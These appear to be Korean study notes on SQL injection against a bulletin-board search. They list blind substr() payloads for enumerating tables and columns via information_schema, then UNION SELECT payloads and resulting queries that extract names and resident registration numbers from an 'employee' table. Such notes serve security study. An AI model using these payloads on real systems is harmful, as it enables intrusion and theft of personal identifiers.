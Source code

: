                    * 자동화된 툴을 이용해서 테이블 정보를 파악
        * 과정
            - Table 정보 -> 필드(Column) 정보 -> Data 획득
                + information_schema.tables, information_schema.columns, union select 이용
            - 테이블명 획득
                + `' and substr((select table_name ...),1,1)='a'#` 
                + `%27+and+substr%28%28select+table_name...`
                    * POST 의 Message Body 영역에 URIEncoding 방식으로 변경되어 전송됨
            - 컬럼정보 획득 (획득한 테이블 정보 employee)
                + `' and substr((select column_name from information_schema.columns where tablew_name='employee' limit 0,1),1,1)='a'#`
            - Data 획득 (획득한 컬럼정보 이용)
                + `' and 1=2 union select 'a','b','c','d','e','f','g','h','i'#`
                ```
                    select * from bbs where subject like '%' and 1=2 union select 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i'#%'
                ```
                    * 1=2 를 통해 원 검색결과 출력을 막음
                    * 필드개수 9개 : bbs의 필드개수와 동일하게 설정
                    * 출력 결과를 통해 웹사이트의 필드가 어떤 컬럼과 매핑되는지 확인
                + 출력위치 확인 후 해당 위치로 employee 테이블의 조회결과 출력
                + `' and 1=2 union select null,null,null,concat(name, '/', juminNo), null, null, null, null, null from employee#`
                ```
                    select * from bbs where subject like '%' and 1=2 union select null, null, null, concat(name, '/', juminNo), null, null, null, null, null from employee#%'
                ```